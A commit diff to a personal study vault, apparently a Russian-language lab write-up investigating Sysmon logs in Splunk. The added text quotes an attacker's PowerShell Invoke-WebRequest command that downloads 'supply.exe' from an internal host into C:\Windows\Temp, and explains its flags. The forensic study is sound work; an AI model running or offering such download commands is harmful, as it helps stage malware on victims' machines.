

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Splunk. Расследование sysmon.md, the part around the change. GitHub-like rendering; pictures changed too: attachment/Pasted image 20261114124155.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-14 12:51:49

```diff
--- a/Splunk. Расследование sysmon.md
+++ b/Splunk. Расследование sysmon.md
@@ -51,3 +51,15 @@ index="system_logs"
 | search ProcessGuid="747F3D96-302C-6095-9704-000000001D00"
 | table UtcTime User IntegrityLevel ParentImage Image CommandLine ParentCommandLine ProcessGuid ParentProcessGuid
 | sort 0 UtcTime
+
+Судя по выводу данный процесс не запускает дочерние процессы. Пока можем сказать что подозрительной активности связанной с sysmon.exe нет.
+
+Следующий процесс с EventID=1 который вызывает подозрения:
+
+![](attachment/Pasted%20image%2020261114124155.png)
+
+cmd.exe запускает powershell с командой powershell -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\Windows\Temp\supply.exe
+- **`-c`** — сокращение от `-Command`. Говорит `powershell.exe` выполнить то, что написано дальше.
+- **`Invoke-WebRequest`** — команда PowerShell, которая отправляет веб-запрос и получает ответ сервера.
+- **`-Uri`** — параметр, задающий адрес запроса. `http://192.168.1.11:6969/supply.exe`
+Сохранение ответа в C:\Windows\Temp\supply.exe.
```
